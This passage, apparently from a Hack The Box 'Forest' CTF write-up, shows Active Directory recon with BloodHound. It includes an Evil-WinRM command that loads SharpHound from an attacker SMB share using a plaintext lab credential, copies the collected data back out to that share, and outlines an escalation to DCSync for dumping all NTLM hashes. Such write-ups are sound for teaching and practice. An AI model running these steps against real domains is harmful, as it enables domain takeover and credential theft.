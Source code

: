 ## AD recon with Bloodhound

Using the Bloodhound ingestor, we can collect the data from Active Directory:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> powershell -ep bypass -command "import-module \\10.10.14.7\test\SharpHound.ps1; invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice"
Initializing BloodHound at 5:07 PM on 10/12/2019
Resolved Collection Methods to Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets
Starting Enumeration for htb.local
Status: 123 objects enumerated (+123 123/s --- Using 117 MB RAM )
Finished enumeration for htb.local in 00:00:01.0088043
1 hosts failed ping. 0 hosts timedout.

Compressing data to C:\Users\svc-alfresco\Documents\20191012170734_BloodHound.zip.
You can upload this file directly to the UI.
Finished compressing files!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy 20191012170734_BloodHound.zip \\10.10.14.7\test
```

After transferring the zip file to our Kali VM, we load the data in Bloodhound and check for the shortest path to domain admin. As shown below, the `svc-alfresco` user has `GenericAll` rights on the `Exchange Windows Permissions` group so we can add this user to the group. Next, the `WriteDacl` rights allows us to give DCsync rights to our compromised user and retrieve the NTLM hashes for all users on the domain.

![](/assets/images/htb-writeup-forest/bloodhound1.png)
